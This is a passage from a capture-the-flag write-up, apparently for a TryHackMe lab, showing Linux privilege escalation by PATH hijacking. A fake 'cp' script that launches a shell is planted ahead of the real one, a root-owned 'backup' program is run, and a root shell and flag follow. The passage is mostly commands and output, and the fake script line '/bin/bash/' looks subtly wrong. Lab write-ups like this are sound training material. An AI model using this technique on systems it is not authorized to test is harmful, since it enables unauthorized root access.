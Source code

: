 We have a strange relative PATH for `cp` command, let's check it :

```bash
archangel@ubuntu:~/secret$ echo $PATH
/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

We can edit the PATH to our directory :

```bash
archangel@ubuntu:~/secret$ export PATH=$PWD:$PATH
archangel@ubuntu:~/secret$ echo $PATH
/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
archangel@ubuntu:~/secret$ 
```

the first one `cp` runned is in our directory so we make it :

```bash
archangel@ubuntu:~/secret$ echo '#! /bin/bash' > cp    # make a bash script named cp
archangel@ubuntu:~/secret$ echo '/bin/bash/' >> cp    # add a line for run a shell
archangel@ubuntu:~/secret$ chmod +x cp                # make it executable
```

The backup file is owned by root so when we run it we have the root shell :

```
archangel@ubuntu:~/secret$ backup
root@ubuntu:/# cd root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}

```

And we can cat the **==root flag==**. 

Pwned !